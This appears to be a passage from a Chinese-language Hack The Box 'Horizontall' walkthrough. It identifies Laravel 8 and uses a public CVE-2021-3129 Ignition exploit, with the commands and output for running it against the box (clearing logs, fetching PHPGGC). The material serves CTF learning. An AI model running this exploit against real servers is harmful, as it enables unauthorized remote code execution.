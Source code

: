 ![](img/27e11f2bfee64e9d897a7d303becd7ea.png)

Laravel 网站

查看该网站，我们可以确认它运行的是 Laravel v8 (PHP v7.4.18)。搜索漏洞发现[这个](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3129) CVE 说:

```
Ignition before 2.5.2, as used in Laravel and other products,
allows unauthenticated remote attackers to execute arbitrary code 
because of insecure usage of file_get_contents() and file_put_contents().
This is exploitable on sites using debug mode with Laravel before 8.4.2.
```

我们在 8.4.2 之前的版本上，在 GitHub 上看一下就发现了[这个](https://github.com/nth347/CVE-2021-3129_exploit) POC。我们简单地克隆并在机器上运行它，让我们来试试:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# git clone https://github.com/nth347/CVE-2021-3129_exploit.git
Cloning into 'CVE-2021-3129_exploit'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (1/1), done.

┌──(root💀kali)-[~/htb/horizontall]
└─# cd CVE-2021-3129_exploit

┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# chmod +x exploit.py

┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2598, done.
remote: Counting objects: 100% (940/940), done.
```